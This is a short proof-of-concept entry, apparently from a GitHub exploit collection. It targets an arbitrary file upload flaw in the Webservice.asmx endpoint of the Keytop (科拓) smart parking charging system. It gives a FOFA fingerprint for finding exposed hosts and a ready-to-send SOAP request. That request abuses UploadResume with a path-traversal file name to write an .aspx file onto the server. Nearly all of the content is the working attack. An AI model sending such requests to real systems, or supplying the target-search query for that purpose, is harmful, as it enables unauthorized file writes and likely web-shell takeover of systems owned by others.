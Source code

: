 ## 科拓全智能停车收费系统Webservice.asmx存在任意文件上传

## fofa
```
body="/KT_Css/qd_defaul.css"
```

## poc
```
POST /Webservice.asmx HTTP/1.1
Host: ip
Content-Type: text/xml; charset=utf-8
Content-Length: 455
SOAPAction: "http://tempuri.org/UploadResume"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadResume xmlns="http://tempuri.org/">
      <ip>1</ip>
      <fileName>../../../../test7.aspx</fileName>
      <fileFlow>dGVzdA==</fileFlow>
      <tag>3</tag>
    </UploadResume>
  </soap:Body>
</soap:Envelope>
```
![image](https://github.com/wy876/POC/assets/139549762/1535e458-f196-46d7-b63c-f45ba47d85a6)
